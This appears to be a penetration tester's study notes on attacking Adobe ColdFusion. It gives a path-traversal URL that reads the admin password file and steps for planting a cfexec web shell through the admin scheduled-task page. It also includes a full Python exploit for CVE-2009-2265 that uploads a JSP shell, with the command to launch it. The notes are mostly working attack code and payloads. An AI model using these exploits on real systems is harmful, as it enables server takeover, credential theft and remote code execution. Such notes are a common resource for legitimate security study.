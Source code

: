 #### Resources
https://pentest.tonyng.net/attacking-adobe-coldfusion/
http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/
https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py
https://www.exploit-db.com/exploits/27755
---
#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
[[Hashcat#Sha1]]
#### Admin page reverse shell
Find the local path: mappings
`Active ColdFusion Mappings.`
`Actions. Logical Path Directory Path`
`ICFIDE C:\Inetpub\WWWIGONCFIDE`
Debugging & Logging > Scheduled Tasks > Schedule New Task
```
cp /usr/share/webshells/cfm/cfexec.cfm .
```
OR
create a malicious jsp and follow similar steps! >>>
![[0._Reverse shells (WEB)#jsp]]
[[Python#Server]]
Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.
**MAKE SURE TO  CHECK THE PUBLISH BOX!**
For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`
![[Pasted image 20220613154728.png]]
After hitting submit, can run tasks right away (Green button), then visit exploit to launch.
`http://$TARGET:/CFIDE/cfexe.cfm`
![[Pasted image 20220613154901.png]]
[[1._Reverse Shells (WIN)#Stageless Payloads]]
[[4._File Transfers]]
![[Pasted image 20220613155208.png]]
[[1._rlwrap]]
#### ColdFusion 8 FileUpload
https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108
FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265
#
# Description:
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys
try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)
basepath = "http://" + ip + ":" + port + path
print 'Sending payload...'
try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```
![[0._Reverse shells (WEB)#jsp]]
![[1._rlwrap]]
```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp
```